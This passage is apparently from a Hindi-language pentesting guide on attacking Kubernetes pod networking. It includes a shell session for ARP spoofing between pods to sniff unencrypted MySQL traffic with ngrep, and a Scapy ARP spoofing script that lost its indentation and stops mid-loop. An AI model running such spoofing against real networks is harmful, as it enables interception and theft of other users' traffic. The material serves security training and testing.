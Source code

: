 इसके अलावा, यदि **DNS सर्वर** **हमलावर के समान नोड में** है, तो हमलावर क्लस्टर में किसी भी पॉड के सभी **DNS अनुरोधों को इंटरसेप्ट** कर सकता है (DNS सर्वर और ब्रिज के बीच) और प्रतिक्रियाओं को संशोधित कर सकता है।
{% endhint %}

## एक ही नोड में पॉड्स में ARP Spoofing

हमारा लक्ष्य है कि **कम से कम ubuntu-victim से mysql तक की संचार चोरी करें**।

### Scapy
```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```
{% code title="arp_spoof.py" %}
```python
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
send(packet, verbose=False)
print("ARP Table restored to normal for", targetip)

def main():
targetip= input("Enter Target IP:")
gatewayip= input("Enter Gateway IP:")

try:
targetmac= getmac(targetip)
print("Target MAC", targetmac)
except:
print("Target machine did not respond to ARP broadcast")
quit()

try:
gatewaymac= getmac(gatewayip)
print("Gateway MAC:", gatewaymac)
except:
print("Gateway is unreachable")
quit()
try:
print("Sending spoofed ARP responses")
while True:
```